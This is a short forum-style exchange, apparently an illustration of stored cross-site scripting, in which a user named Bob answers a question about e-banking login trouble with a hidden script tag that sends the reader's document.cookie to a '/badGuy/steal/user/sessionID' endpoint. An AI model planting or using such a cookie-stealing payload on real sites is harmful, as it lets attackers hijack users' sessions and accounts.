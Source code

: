 Mike: Hello everyone, I have a problem logging into my e-banking. Does anyone else have the same problem?

Bob: No mine is working fine. <script> fetch('/badGuy/steal/user/sessionID', {   method: 'POST',   headers: {     'Content-Type': 'application/json;charset=utf-8'   },   body: JSON.stringify(document.cookie) });</script>

